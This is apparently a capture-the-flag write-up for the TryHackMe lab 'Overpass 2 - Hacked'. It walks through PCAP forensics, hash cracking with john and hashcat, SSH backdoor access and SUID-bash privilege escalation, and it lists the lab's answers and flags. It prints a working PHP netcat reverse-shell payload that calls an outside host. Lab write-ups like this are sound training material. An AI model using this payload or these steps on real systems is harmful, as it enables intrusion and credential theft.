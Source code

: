 # Overpass 2 - Hacked 

> Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

<br>

### Process:

1. Forensics - Analyse the PCAP:
	- URL of the page used to upload reverse shell = **/development/**
	- payload uploaded by attacker:
		- find HTTP POST request and follow TCP stream
		- answer = **`<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`**
	- what password did the attacker use to privesc:
		- find TCP stream between IP and port in payload and victim, and follow this TCP stream (netcat reverse shell transmits everything in cleartext)
		- answer = **whenevernoteartinstant**
	- how did attacker establish persistence
		- keep following TCP stream of netcat session
		- answer = **https://github.com/NinjaJc01/ssh-backdoor**
	- how many system passwords are crackable (using fasttrack wordlist):
		- copy the dump "/etc/shadow" file into "hashes.txt"
		- use john to crack hashes: `john hashes.txt --wordlist=/usr/share/wordlists/fasttrack.txt`
		- answer = **4**
2. Research - Analyse the code:
	- what's the default hash for the backdoor:
		- visit GitHub page and look at the "main.go" file
		- answer = **bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3**
	- what's the hardcoded salt for the backdoor:
		- answer = **1c362db832f3f864c8c2fe05f2002a05**
	- what was the hash the attacker used:
		- look back at the TCP stream of the netcat session
		- answer = **6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed**
	- crack the hash and find the password:
		- need to get the hash and the salt in the right format (hash:salt)
		- then use hashcat to crack the hash: `hashcat -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`
		- password = **november16**
3. Attack - Get back in:
	- message on deface website:
		- visit machine's webpage
		- message = **H4ck3d by CooctusClan**
	- get back into the machine:
		- use SSH backdoor installed running on port 2222 and password cracked
		- `ssh james@10.10.1.187 -p 2222` -> [password]
	- find the user flag:
		- `cat ~/user.txt`
		- user flag = **thm{d119b4fa8c497ddb0525f7ad200e6567}**
	- find root flag:
		- look for easy/quick way to get root: `ls -ali` in "/home/james"
		- found ".suid_bash" that runs as root and creates basic bash shell
		- lookup bash program with SUID bit set on [GTFO Bins](https://gtfobins.github.io/gtfobins/bash/#suid)
		- run exploit found and get root flag: `/.suid_bash -p` -> `cat /root/root.txt`
		- root flag = **thm{d53b2684f169360bb9606c333873144d}**